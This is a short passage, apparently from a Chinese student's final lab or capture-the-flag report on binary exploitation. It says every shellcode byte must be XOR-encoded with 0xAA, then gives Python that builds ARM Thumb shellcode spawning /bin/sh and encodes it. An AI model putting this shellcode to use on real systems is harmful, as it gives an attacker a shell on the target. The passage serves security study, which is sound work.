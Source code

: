   ![image-20210708150139111](3180105507_唐顺政_final报告.assets/image-20210708150139111.png)

- 因此shellcode的每个字节也要先和`0xAA`取反，最后构造出的shellcode如下：

  ```python
  n = []
  shellcode = b'\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x08\x30\x49\x1a\x92\x1a\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68' + b'\x65\x6c\x6c'
  for i in shellcode[:]:
  	n.append(i)
  for i in range(len(n)):
  	n[i] = n[i] ^ 0xAA
  shellcode = bytes(n)
  ```
